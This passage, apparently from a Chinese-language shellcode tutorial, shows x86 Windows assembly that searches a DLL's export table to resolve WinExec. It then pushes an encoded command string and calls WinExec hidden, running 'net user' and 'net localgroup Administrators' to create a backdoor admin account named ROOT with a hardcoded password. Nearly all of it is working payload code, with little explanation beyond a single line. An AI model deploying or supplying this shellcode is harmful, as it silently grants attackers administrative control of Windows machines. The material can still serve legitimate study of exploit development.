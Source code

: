     searchLoop:
    mov edi, edx    ; EDI = &ExportNameTable
    mov esi, esp    ; ESI = "WinE"
    xor ecx, ecx
    cld                  ; Process strings left to right
    mov edi, [edi+eax*4] ; EDI = RVA NthNameString
    add edi, [esp+0xC]   ; EDI = &NthNameString
    add cx, 0x4          ; ECX = len("WinE")
    repe cmpsb           ; compare [&NthNameString] to "WinExec"
    jz found             ; If [&NthNameString] == "WinExec" end loop
    inc eax              ; Counter ++
    jmp short searchLoop ; restart loop

    found:
    mov ecx, [esp+0x8]     ; ECX = &ExportOrdinalTable
    mov ax,  [ecx + eax*2] ;  AX = ordinalNumber
    mov edx, [esp+0x4]     ; EDX = &ExportAddrTable
    mov ebx, [edx + eax*4] ; EBX = RVA WinExec
    add ebx, [esp+0xC]     ; EBX = &WinExec
    ```
    * 添加用户操作，将命令字符串压入栈中，调用`WinExec`函数打开命令行，使用命令行执行命令
    ```
    add_user:
    ; Call WinExec( CmdLine, ShowState );
    ; $CmdLine = 'cmd.exe /c net user ROOT I@mR00T$ /ADD && net localgroup Administrators ROOT /ADD'
    ; $ShowState = SW_HIDE  
    xor ecx, ecx
    mul ecx
    mov al, 0x44    ; D : 44
    push eax
    push 0x44412f20 ; DA/  
    push 0x544f4f52 ; TOOR 
    push 0x2073726f ;  sro 
    push 0x74617274 ; tart 
    push 0x73696e69 ; sini 
    push 0x6d644120 ; mdA  
    push 0x70756f72 ; puor 
    push 0x676c6163 ; glac 
    push 0x6f6c2074 ; ol t 
    push 0x656e2026 ; en & 
    push 0x26204444 ; & DD 
    push 0x412f2024 ; A/ $ 
    push 0x54303052 ; T00R 
    push 0x6d404920 ; m@I  
    push 0x544f4f52 ; TOOR 
    push 0x20726573 ;  res 
    push 0x75207465 ; u te 
    push 0x6e20632f ; n c/ 
    push 0x20657865 ;  exe 
    push 0x2e646d63 ; .dmc 
    mov eax, esp    ; EAX = &CmdLine
    push ecx        ; $ShowState 
    push eax        ; $CmdLine
    call ebx        ; Call the WinExec Function
    ```
